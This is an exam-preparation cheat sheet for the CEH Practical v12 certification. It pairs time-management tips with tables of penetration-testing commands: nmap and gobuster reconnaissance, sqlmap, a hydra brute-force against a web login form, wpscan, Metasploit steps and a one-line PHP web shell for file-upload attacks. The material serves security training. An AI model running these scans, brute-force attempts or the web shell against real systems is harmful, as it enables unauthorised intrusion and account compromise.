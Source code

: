
### **CEH Practical v12: Ultimate Prep Guide & Cheat Sheet**

---

### **Pre-Exam Strategy & Mindset**

1.  **Time Management is KEY:** 6 hours sounds long, but it flies. You have ~18 minutes per question. If you're stuck on a task for 15+ minutes, **flag it for review and move on**. Come back to it later.
2.  **Read Questions Carefully:** Understand what is being asked. Are you to find a vulnerability, exploit it, or perform a post-exploitation task? What is the exact flag format?
3.  **Document Everything:** Use the built-in notepad. Write down:
    *   IP addresses of targets.
    *   Usernames & passwords you find.
    *   Potential paths (e.g., `/secret-door/`).
    *   Commands that worked.
4.  **The Answer is in the Room:** You don't need to brute force something that isn't there. If a standard attack isn't working, you might be missing a step or using the wrong tool.

---

### **Essential Tool Cheat Sheet (The "Swiss Army Knives")**

#### **1. Reconnaissance & Scanning**

| Task | Command | Purpose |
| :--- | :--- | :--- |
| **Host Discovery** | `nmap -sn 192.168.1.0/24` | Ping sweep to find live hosts |
| **Port Scanning** | `nmap -sS -A -T4 <target_ip>` | Stealth SYN scan + OS/version detection |
| | `nmap -sV -sC -p- <target_ip>` | Version detection, default scripts, all ports |
| **Web Dir Enum** | `gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt` | Find hidden directories |
| | `gobuster dir -u http://<ip> -w wordlist.txt -x php,txt,bak` | Find files with extensions |
| **Subdomain Enum** | `gobuster dns -d example.com -w /usr/share/wordlists/SecLists/subdomains.txt` | Find subdomains |

#### **2. Vulnerability Assessment & Exploitation**

| Task | Command / Tool | Purpose |
| :--- | :--- | :--- |
| **Nikto Scan** | `nikto -h http://<ip>` | Quick web server vuln scan |
| **SQL Injection** | `sqlmap -u "http://<ip>/page?id=1" --dbs` | Automate SQLi discovery & exploitation |
| **Basic Login Brute-Force** | `hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"` | Brute-force web forms |
| **WordPress Scan** | `wpscan --url http://<ip> --enumerate u,p,t` | Enumerate users, plugins, themes |
| **Metasploit** | `msfconsole` | The exploitation framework |
| | `search <exploit_name>` | |
| | `use <exploit_path>` | |
| | `set RHOSTS <target_ip>` | |
| | `set LHOST <your_ip>` | |
| | `exploit` or `run` | |
| **File Upload Vuln** | Upload a `.php` web shell: `<?php system($_GET['cmd']); ?>` | Get command execution |
